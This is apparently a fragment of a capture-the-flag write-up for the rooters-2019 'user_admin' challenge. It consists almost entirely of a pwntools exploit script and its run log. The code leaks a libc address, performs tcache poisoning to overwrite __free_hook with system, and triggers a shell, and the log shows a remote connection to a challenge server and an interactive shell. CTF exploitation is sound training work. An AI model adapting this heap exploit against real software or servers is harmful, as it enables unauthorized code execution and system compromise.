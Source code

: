 ```python
# Change LSB of fd to 0x80
edit('\x80', 15)

create('A', 15)
message('A'*0x30)

leak = u64(p.recvuntil('Saving').split('\n')[2][-6:].ljust(8, '\x00'))
libc.address = leak - 0x3e82a0
system = libc.symbols['system']
free_hook = libc.symbols['__free_hook']

log.info('Leak: ' + hex(leak))
log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
log.info('__free_hook: ' + hex(free_hook))

# Tcache poisoning attack
free()
free()

edit(p64(free_hook), 15)
message('/bin/sh\x00')
message(p64(system))
free()

p.interactive()
```

```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-re-challenges/rooters-2019/user_admin$ ./exploit.py REMOTE
[*] '/ctf/pwn-and-re-challenges/rooters-2019/user_admin/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/pwn-and-re-challenges/rooters-2019/user_admin/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 34.69.116.108 on port 3333: Done
[*] Leak: 0x7f2f8592d2a0
[*] Libc base: 0x7f2f85545000
[*] system: 0x7f2f85594440
[*] __free_hook: 0x7f2f859328e8
[*] Switching to interactive mode

Message recieved:
@DY\x85/\x7f

Saving it for admin to see!

### USER ADMINISTRATION ###

0) Create user
1) Edit user name
2) Delete user
3) Send admin a message
4) exit
Enter your choice: $ ls
bin
boot
```